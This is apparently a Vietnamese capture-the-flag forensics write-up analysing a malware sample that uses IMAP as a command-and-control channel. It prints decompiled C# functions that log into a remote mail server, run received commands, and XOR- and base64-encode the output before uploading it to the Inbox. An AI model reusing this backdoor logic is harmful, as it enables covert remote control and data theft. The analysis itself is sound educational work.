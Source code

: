 ![image](images/13.png)

```
Answer: proplayer@email.com:completed
```
>5. What is the name of the task scheduled by the attacker?

Khi làm thì mình cần tìm câu trả lời càng sớm càng tốt, nên đã kiểu đoán mò khá nhiều, mình đã follow hết các stream liên quan đến IMAP nhưng kh thấy có task scheduled nào của attacker, nên mình nghĩ khả năng rất cao là nó nằm trong đống bị mã hóa này

![image](images/14.png)

Từ đây mình sẽ đi vào phân tích đoạn code C#, chú ý đến các hàm sau

```C#
private static void create(string text)
    {
      text = "From: " + Environment.UserName + "\r\nSubject: " + DateTime.UtcNow.ToString() + "_report_" + Program.comp_id + "\r\n\r\n" + text;
      byte[] bytes = Encoding.ASCII.GetBytes("$ APPEND Inbox {" + text.Length.ToString() + "}\r\n" + text + "\r\n");
      Task.Factory.FromAsync<byte[], int, int>(new Func<byte[], int, int, AsyncCallback, object, IAsyncResult>(((Stream) Program.ssl).BeginWrite), new Action<IAsyncResult>(((Stream) Program.ssl).EndWrite), bytes, 0, bytes.Length, (object) Program.ssl);
    }
```

Hàm create tạo một email cơ bản với thông tin người gửi, chủ đề (dựa trên thời gian và comp_id), và nội dung text. Sau đó, nó gửi email này lên máy chủ IMAP (vào thư mục "Inbox") thông qua kết nối mạng bảo mật (Program.ssl). Nội dung gửi chính là đoạn văn bản bị mã hóa kia

Tiếp theo

```C#
private static void execute(string[] commands)
    {
      try
      {
        Program.connect(Program.creds.Split(':')[2], 143);
        Program.Login(Program.creds.Split(':')[0], Program.creds.Split(':')[1]);
      }
      catch
      {
        try
        {
          Program.connect(Program.r_creds.Split(':')[2], 143);
          Program.Login(Program.r_creds.Split(':')[0], Program.r_creds.Split(':')[1]);
        }
        catch
        {
        }
      }
      foreach (string command in commands)
      {
        if (command.Contains("change_"))
          Program.change(command);
        else
          Program.create(Convert.ToBase64String(Program.xor(Encoding.UTF8.GetBytes(Program.cmd(command)))));
      }
    }
```